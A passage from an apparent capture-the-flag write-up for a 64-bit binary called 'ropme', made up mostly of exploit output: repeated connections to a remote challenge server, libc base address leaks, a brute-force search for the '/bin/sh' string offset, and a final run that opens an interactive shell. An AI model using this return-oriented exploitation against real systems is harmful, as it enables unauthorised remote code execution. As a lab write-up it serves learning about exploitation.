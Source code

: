 ```bash
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7f28f5066690'
[BASE] libc: 0x00007f28f4ff7000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[*] Closed connection to 159.65.54.14 port 30989
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'f7a690'
[BASE] libc: 0x0000000000f0b000
b"g\x7f\nROP me outside, how 'about dah?\n"
[+] Opening connection to 159.65.54.14 on port 30989: Done
b"ROP me outside, how 'about dah?\n"
b'7fd6c73da690'
[BASE] libc: 0x00007fd6c736b000
b"ROP me outside, how 'about dah?\n"
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367
```

Last one is about /bin/sh. Okay, I fixed the offset in exploit and got shell.

```bash
python3 remote_exploit.py remote
[+] Opening connection to 159.65.54.14 on port 30989: Done
[*] '/home/kali/Downloads/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b"ROP me outside, how 'about dah?\n"
b'7fe120603690'
[BASE] libc: 0x00007fe120594000
b"ROP me outside, how 'about dah?\n"
[*] Switching to interactive mode
$ w
 14:25:01 up 2 days,  1:34,  1 user,  load average: 0.53, 0.33, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
```

[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399